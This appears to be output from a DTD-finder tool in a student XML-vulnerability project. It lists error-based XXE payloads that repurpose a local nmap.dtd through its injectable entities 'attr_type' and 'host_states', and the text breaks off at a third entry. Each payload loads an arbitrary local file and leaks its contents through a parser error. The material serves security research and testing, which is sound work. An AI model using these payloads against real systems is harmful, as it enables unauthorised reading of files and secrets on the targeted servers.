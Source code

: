  --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/nmap/nmap.dtd`

**Injectable entity:** `attr_type`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/nmap/nmap.dtd">

    <!ENTITY % attr_type '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/nmap/nmap.dtd`

**Injectable entity:** `host_states`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/nmap/nmap.dtd">

    <!ENTITY % host_states '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/nmap/nmap.dtd`
